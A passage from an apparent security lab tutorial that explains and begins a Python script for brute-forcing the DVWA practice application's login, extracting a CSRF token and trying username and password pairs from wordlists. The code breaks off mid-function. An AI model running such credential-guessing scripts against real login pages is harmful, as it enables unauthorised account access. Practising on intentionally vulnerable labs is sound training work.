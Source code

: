 ## **Python Script To Attack DVWA**

Now, we will create the script to test the login functionality of the DVWA application. This script will attempt to login to the application with each username and password combination in the `usernames.txt` and `passwords.txt` files. Before that it will extract the CSRF token from the login page. Then it will attempt to login to the application with the extracted CSRF token, username and password combination. If the login is successful, the script will print the username and password combination. If the login is unsuccessful, the script will print the username and password combination and continue to the next combination.

![](./images/logo2.drawio.svg)

Save the following Python script as `test.py` in the project folder:

```python
import requests
import re

# Base URL and login endpoint
url_base = "https://<poridhi-load-balancer-url>/"
url_login = url_base + "login.php"

# File paths for usernames and passwords
path_users_file = 'usernames.txt'
path_passwords_file = 'passwords.txt'

# Function to retrieve CSRF token
def get_csrf_token(session):
    response = session.get(url_login)
    if response.status_code == 200:
        match = re.search(r"name='user_token' value='(.*?)'", response.text)
        if match:
            return match.group(1)
    print("Failed to retrieve CSRF token.")
    return None

# Function to attempt login
def attempt_login(session, username, password, csrf_token):
    login_data = {
        'username': username,
        'password': password,
        'Login': 'Login',
        'user_token': csrf_token
    }
    response = session.post(url_login, data=login_data)
```
